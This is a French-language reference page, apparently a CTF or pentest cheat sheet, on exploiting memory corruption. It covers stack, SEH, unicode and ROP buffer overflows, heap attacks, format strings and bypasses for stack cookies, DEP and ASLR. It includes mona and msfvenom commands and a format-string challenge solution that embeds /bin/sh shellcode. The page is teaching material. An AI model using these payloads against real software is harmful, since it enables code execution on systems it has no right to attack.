 ```yaml
---
title: Buffer Overflows
permalink: /Buffer_Overflows/
---
```


# Buffer Overflows

## Généralités

Cette section contient des commandes générales utiles pour l'exploitation de buffer overflows.

Générer des patterns avec metasploit:

``` bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb 2700 # Génération du pattern
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb 39694438 # Trouver l'offset
```

Trouver un jmp avec mona dans un module spécifique:

``` bash
!mona jmp -!mona jmp -r esp -m user32.dll
```

Quand on teste un payload avec GDB il faut prendre en compte les variables d'environnement qui sont différentes dans GDB et dans un terminal "normal". Une astuce est de setter temporairement des variables dans le terminal normal (il y a notamment les variables COLUMNS et LINES qui sont présentes dans GDB)

### Bad characters

Pour rechercher des bad chars on peut générer un payload avec mona:

``` bash
!mona bytearray # Tous les caractères
!mona bytearray -cpb "\x00\x0a" # Tous sauf \x00 \x0a
```

On peut comparer un fichier avec le contenu en mémoire:

``` bash
!mona compare -f C:/mona/minishare/bytearray.bin -a 01010101 
```

Cette chaîne peut être utilisée pour chercher les "**bad chars**":

``` text
buf="\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
buf+="\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
buf+="\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
buf+="\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
buf+="\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
buf+="\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
buf+="\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
buf+="\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
buf+="\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
buf+="\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
buf+="\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
buf+="\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
buf+="\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
buf+="\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
buf+="\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
buf+="\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

Il faut également s'assurer que les bad chars n'empêchent pas le crash pour pouvoir facilement trouver à quel char on s'est arrêté.

### Générer shellcodes

On peut utiliser metasploit pour trouver les équivalents opcode de certaines instructions:

``` text
# /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
nasm > jmp esp
00000000  FFE4              jmp esp
```

## SEH Overflows

Les commandes mona suivantes permettent l'exploitation :
``` bash
!mona exchain # Affiche les enregistrements SEH (on peut aussi faire ALT+S)
!mona safeseh # Affiche les modules sans SafeSEH
!mona seh -m strmdll.dll # Chercher un pop,pop,ret dans le module indiqué
```

Il faut trouver un payload de la forme suivante:
``` bash
[JUNK][Short JMP          ][Address to POP, POP, RET][NOPs][Shellcode]
[????][Address to next SEH][Address of SEH Handler  ][???????????????]
```

Si on utilise msfvenom il faut préciser EXITFUNC=SEH.

## Unicode

msfvenom dispose d'un encoder pour générer des payloads compatibles avec de l'unicode:

``` bash
msfvenom -p windows/exec -e x86/unicode_mixed CMD=calc.exe BufferRegister=eax --format=py
```

Il est cependant nécessaire d'initialiser la valeur de registre eax pour qu'elle pointe vers le début du buffer. FuzzySecurity montre une démarche (voir détail complet dans le [tutorial](http://www.fuzzysecurity.com/tutorials/expDev/5.html)). 

## Return Oriented Programming (ROP)

Les commandes mona suivantes sont utiles pour les exploits ROP:

``` bash
!mona modules # Liste les informations sur les différents modules
!mona ropfunc -m MSRMfilter03.dll -cpb '\x00\x09\x0a' # Liste les fonctions utiles pour ROP dans MSRMfilter03.dll (VirtualAlloc, etc.)
!mona rop -m MSRMfilter03.dll -cpb '\x00\x09\x0a' # Liste les gadgets dans MSRMfilter03.dll. Cette commande génère plusieurs fichiers. Le fichier rop_chains.txt contient la structure (valeurs à mettre dans les registres, etc.) pour faire un exploit valide.
```
## Heap attacks

### Structure de la Heap (Linux)

La Heap est remplie de chunks. Ils peuvent soit etre en utilisation ou libre.

- Chunk utilisé:
``` bash
[Previous Chunk Size(*)][Chunk Size + Flags][Data              ]
[4 bytes               ][4 bytes           ][(8 + (n/8)*8 bytes]
[*(buffer - 8)         ][*(buffer - 4)     ][*buffer           ]
(*) n'est configuré que si le chunk précédent est libre !
```

 - Chunk libre:
 ``` bash
[Previous Chunk Size][Chunk Size + Flags][FD (pointer to next free chunk)][BK (pointer to previous free chunk)]
[4 bytes            ][4 bytes           ][4 bytes                        ][4 bytes                            ]
[*(buffer - 8)      ][*(buffer - 4)     ][*buffer                        ][*(buffer + 4)                      ]
```

### Heap overflow

Une attaque de type heap overflow permet d'écraser des valeurs sur le tas. Ceci peut permettre de contourner certains contrôles (ex: valeur "privs" à modifier) ou éventuellement executer du code (ex: le tas contient un pointeur qui est ensuite utilisé via strcpy. On peut alors modifier ce pointeur pour que le strcpy modifie une adresse de retour).

### Heap Spraying

Le Heap Spraying est une méthode utilisée pour mettre le shellcode en mémoire. Via du JavaScript on met le shellcode précédé d'un large nopsled. Ceci permet de mettre dans EIP une adresse où on a une forte chance de tomber sur le nopsled.

### Commandes

Les commandes suivantes sont utiles pour l'exploitation de vulnérabilités liées à la heap:

``` bash
info proc mappings # Permet d'afficher les mappings de la heap, stack, etc.
x/64xw 0x804a000 # Permet d'afficher le contenu à l'adresse indiquée (adresse de la heap à récupérer)
```

## Format String

Une vulnérabilité de type format string permet de lire du contenu en mémoire mais aussi de le modifier ce qui permet de faire un RCE.

Les éléments suivants sont importants dans ce type d'exploit:

``` c
printf("%x"); // Prend les deux premières valeurs sur la pile et les affiche en tant que que nombre hexa
printf("Hello%n"); // Ecrit le nombre de caractères déjà mis dans le printf (ici 5 caractères de Hello) à l'adresse qui est sur la pile. On aura un crash si la première valeur de la pile n'est pas une adresse.
printf("%5$x"); // Prend la 5e valeur sur la pile
printf("%10d"); // Prend la première valeur sur la pile et l'affiche en tant qu'entier de 10 caractères (en complétant avec des espaces si nécessaire)
printf("%5$hn"); // Prend l'adresse en 5e position sur la pile et écrit sur le half-byte s'y trouvant. On utilise ceci pour pouvoir écrire une adresse arbitraire en deux fois. Ainsi si on voulait écrire 0x08091011 il faudrait mettre 134811665 avant le %n. En utilisant %hn on peut le faire en deux fois (0x0809 - 2057 et 0x1011 - 4113)
```

On peut exploiter ceci de différentes manières:
- Lire le contenu en mémoire
- Ecraser une valeur de retour (utile pour des challenges où on doit appeler une fonction précise)
- Modifier une valeur dans la Global Offset Table (voir [LiveOverflow](https://www.youtube.com/watch?v=kUk5pw4w0h4))
- Génrer un shellcode.

``` python
# Solution a un challege
shellcode = '\xee\xf7\xff\xbf'  # Adresse où se trouve le saved EIP
shellcode += '\xec\xf7\xff\xbf' # Adresse - 2 où se trouve le saved EIP. Ceci est utilisé pour le "half-write"
shellcode += 'AAAA\xcc\xcc'     # JUNK et caractères de debug
shellcode += '\x6a\x31\x58\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\x31\xc0\x50\x68\x2f\x2f' # Shellcode
shellcode += '\x73\x68\x68\x2f\x62\x69\x6e\x54\x5b\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80'     # Shellcode
shellcode += '%49098d'         # On genère des caractères. En additionant ceux-ci aux précédents (shellcode, etc.) on a 0xbfff caractères imprimés
shellcode += '%4\$hn'          # On écrase le début 0xbfff
shellcode += '%14349d'         # On génère plus de caractères 
shellcode += '%5\$hn'          # On écrase la fin 0xf80c
```

### Références
- [Les failles Format String](https://repo.zenk-security.com/Techniques%20d.attaques%20%20.%20%20Failles/Les%20failles%20Format%20String.pdf)

## Protections

### Stack Cookies

Méthodes de contournement:
- Cookie prévisible (statique, faible entropie, etc.)

#### Linux

Sous Linux, les stack cookies se terminent par \x00 pour rendre plus difficile leur remplacement (strcpy et d'autres fonctions s'arrêtant après le \x00).

#### Windows

Sous Windows il est possible de contourner un stack cookie via SEH. L'exception intervenant avant la vérification de la valeur du stack cookie.

### Data Execution Prevention (DEP)

Méthodes de contournement:
- Return Oriented Programming
- Return to LIBC

### Address Space Layout Randomization (ASLR)

Méthodes de contournement:
- Partial EIP Overwrite (voir [tutorial Corelan](https://www.corelan.be/index.php/2009/09/21/exploit-writing-tutorial-part-6-bypassing-stack-cookies-safeseh-hw-dep-and-aslr/))

## Ressources

### Liens externes

- [64 Bits Linux Stack Based Buffer Overflow](https://www.exploit-db.com/docs/33698.pdf)
- [Windows Exploit Development - Part 1](http://www.shogunlab.com/blog/2017/08/19/zdzg-windows-exploit-1.html)
- [Tutorials Fuzzy Security](http://www.fuzzysecurity.com/tutorials.html)
